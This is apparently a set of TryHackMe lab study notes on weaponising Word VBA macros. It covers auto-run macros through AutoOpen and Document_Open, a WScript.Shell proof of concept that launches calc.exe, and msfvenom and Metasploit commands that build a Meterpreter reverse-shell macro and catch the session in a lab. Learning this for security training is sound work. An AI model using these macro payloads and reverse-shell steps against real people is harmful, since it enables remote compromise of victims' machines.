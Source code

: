 ```yaml
---
title: Visual Basic for Application (VBA) 🔮
tags:
  - TryHackMe
  - Theory
---
```

## Visual Basic for Application (VBA)

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.   

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications). 

In this task, we will discuss the basics of VBA and the ways the adversary uses macros to create malicious Microsoft documents. To follow up along with the content of this task, make sure to deploy the attached Windows machine in Task 2. When it is ready, it will be available through in-browser access.

Now open Microsoft Word 2016 from the Start menu. Once it is opened, we close the product key window since we will use it within the seven-day trial period.

![](Pasted%20image%2020240127171917.png)

Next, make sure to accept the Microsoft Office license agreement that shows after closing the product key window.

![](Pasted%20image%2020240127171931.png)

Now create a new blank Microsoft document to create our first macro. The goal is to discuss the basics of the language and show how to run it when a Microsoft Word document gets opened. First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.

![](Pasted%20image%2020240127172007.png)

In the Macro name section, we choose to name our macro as THM. Note that we need to select from the Macros in list Document1 and finally select create. Next, the Microsoft Visual Basic for Application editor shows where we can write VBA code. Let's try to show a message box with the following message: Welcome to Weaponization Room!. We can do that using the MsgBox function as follows:

```javascript
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```

Finally, run the macro by F5 or Run → Run Sub/UserForm.

Now in order to execute the VBA code automatically once the document gets opened, we can use built-in functions such as AutoOpen and Document_open. Note that we need to specify the function name that needs to be run once the document opens, which in our case, is the THM function.

```javascript
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```

It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.

![](Pasted%20image%2020240127172034.png)

Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been disabled and give us the option to enable it. Let's enable it and move forward to check out the result.

![](Pasted%20image%2020240127172052.png)

Once we allowed the Enable Content, our macro gets executed as shown,

![](Pasted%20image%2020240127172108.png)

Now edit the word document and create a macro function that executes a calc.exe or any executable file as proof of concept as follows,  

```javascript
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the  AutoOpen() and Document_open() functions too.

Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create AutoOpen() and Document_open() functions before saving the document. Once the code works, now save the file and try to open it again.

![](Pasted%20image%2020240127172132.png)

It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.


Now let's create an in-memory meterpreter payload using the Metasploit framework to receive a reverse shell. First, from the AttackBox, we create our meterpreter payload using msfvenom. We need to specify the Payload, LHOST, and LPORT, which match what is in the Metasploit framework. Note that we specify the payload as VBA to use it as a macro.

````shell
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba -o example.vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
````


The value of the LHOST in the above terminal is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.

**Import to note** that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:

````shell
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
````

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.


````shell
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >
````